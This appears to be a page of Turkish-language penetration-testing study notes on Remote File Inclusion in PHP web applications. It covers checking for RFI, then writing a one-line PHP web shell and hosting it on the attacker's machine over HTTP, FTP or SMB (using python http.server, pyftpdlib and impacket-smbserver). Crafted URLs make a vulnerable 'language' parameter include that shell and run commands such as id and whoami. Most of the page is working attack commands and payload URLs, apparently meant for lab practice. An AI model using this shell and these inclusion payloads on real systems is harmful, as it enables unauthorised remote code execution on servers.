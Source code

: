 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Remote File Inclusion (RFI)

## Verify RFI

LFI zafiyetinin olduğu bir web uygulamasında RFI zafiyetinin de olup olmadığını kontrol etmek için, önceki bölümlerde bahsedilen `allow_url_include` seçeneği aynı şekilde kontrol edilebilir. Ancak RFI için bu kontrol yanıltıcı olabilir. Bunun yerine URL dahil etmeyi deneyebiliriz. Güvenlik sistemleri tarafından engellenmemek için, ilk aşamada yerel bir URL denemekte fayda vardır:

* [x] Örneğin URL şu şekilde gözükebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=http://127.0.0.1:80/index.php
```

!!! warning "Recursive Inclusion"

    Savunmasız sayfanın kendisini (örneğin `index.php`) dahil etmek uygun bir yöntem olmayabilir. Çünkü bu durum, özyinelemeli bir RFI döngüsüne sebep olarak arka uç sunucusunda bir DoS saldırısına neden olabilir.

## Remote Code Execution with RFI

Uzaktan kod yürütebilmek için, ilgili web uygulamasının dilinde bir script (örneğin PHP için `shell.php`) oluşturabiliriz:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### HTTP

```bash
sudo python3 -m http.server LISTENING_PORT
```

```text title="Output"
Serving HTTP on 0.0.0.0 port LISTENING_PORT (http://0.0.0.0:LISTENING_PORT/) ...
```

* [x] Şu şekilde bir URL denenebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=http://OUR_IP_ADDRESS:LISTENING_PORT/shell.php&cmd=id
```

### FTP

```bash
sudo python -m pyftpdlib -p 21
```

```text title="Output"
...SNIP... >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
...SNIP... concurrency model: async
...SNIP... masquerade (NAT) address: None
...SNIP... passive ports: None
```

* [x] Şu şekilde bir URL denenebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

### SMB

Savunmasız web uygulaması Windows sunucusu üzerinden servis ediliyorsa `allow_url_include` seçeneğini kontrol etmemize gerek yoktur. Çünkü uzak SMB sunucusundaki dosyalar, normal dosyalar gibi işlem görür.

```bash
impacket-smbserver -smb2support share $(pwd)
```

```text title="Output"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* [x] Şu şekilde bir URL denenebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=\\OUR_IP_ADDRESS\share\shell.php&cmd=whoami
```
